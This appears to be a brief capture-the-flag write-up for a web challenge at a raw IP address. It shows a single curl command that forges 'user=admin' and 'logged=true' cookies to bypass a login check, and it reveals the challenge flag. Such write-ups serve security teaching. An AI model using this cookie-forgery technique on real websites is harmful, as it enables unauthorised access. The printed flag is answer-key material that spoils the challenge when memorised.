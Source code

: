#### Challenge:

http://159.89.22.33:25633/

---

#### Solution:

```bash
curl 'http://159.89.22.33:25633/?page=flag'  -H 'Cookie: user=admin; logged=true' 2>/dev/null | grep AFFCTF
```

---

<details><summary>FLAG:</summary>

```
AFFCTF{n3v3r_7ru57_u5er5_1npUt}
```

</details>

